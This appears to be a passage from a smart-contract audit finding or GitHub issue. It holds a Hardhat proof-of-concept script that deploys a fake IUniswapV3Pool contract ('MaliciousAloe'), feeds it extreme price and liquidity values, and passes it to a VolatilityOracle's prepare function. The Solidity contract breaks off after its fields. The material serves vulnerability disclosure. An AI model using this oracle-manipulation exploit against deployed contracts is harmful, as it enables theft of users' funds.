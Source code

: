 Consider the following script:
```javascript
const { ethers } = require("hardhat");

async function main() {
  // 1. Deploy the malicious contract mimicking IUniswapV3Pool
  const MaliciousContract = await ethers.getContractFactory("MaliciousAloe");
  const maliciousContract = await MaliciousContract.deploy();
  await maliciousContract.deployed();
  console.log("MaliciousAloe deployed at:", maliciousContract.address);

  // 2. Deploy the VolatilityOracle contract
  const VolatilityOracle = await ethers.getContractFactory("VolatilityOracle");
  const volatilityOracle = await VolatilityOracle.deploy();
  await volatilityOracle.deployed();
  console.log("VolatilityOracle deployed at:", volatilityOracle.address)
  
  await maliciousContract.setFakeData(
    ethers.BigNumber.from("0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"), // A very large _fakeSqrtPriceX96
    0,                                                           // _fakeCurrentTick
    1,                                                           // _fakeObservationIndex
    10000,                                                       // A large _fakeObservationCardinality
    Math.floor(Date.now() / 1000),                               // _fakeObservationTimestamp
    0,                                                           // _fakeFeeProtocol
    ethers.utils.parseUnits("1000000", 18)                       // A large _fakeLiquidity
  );  
  console.log("Fake data has been set");

    // Step 3: Call prepare Function
    await volatilityOracle.prepare(maliciousContract.address);
    console.log("prepare function executed successfully");
  
    // Step 4: Log Manipulated Data
    const manipulatedData = await maliciousContract.getManipulatedData();
    console.log("Manipulated Data:", manipulatedData);
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error);
    process.exit(1);
  });
```

Which is interacting with the following malicious CA (MaliciousAloe.sol):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.9;

import "contracts/interfaces/IUniswapV3Pool.sol";

contract MaliciousAloe is IUniswapV3Pool {
    // Malicious data to return
    address public fakeToken0;
    address public fakeToken1;
    uint24 public fakeFee = 3000;
    int24 public fakeTickSpacing = 60;
    uint128 public fakeMaxLiquidityPerTick = type(uint128).max;
    uint160 public fakeSqrtPriceX96 = 2**96;
    int24 public fakeCurrentTick = 0;
    uint16 public fakeObservationIndex = 1;
    uint16 public fakeObservationCardinality = 2;
```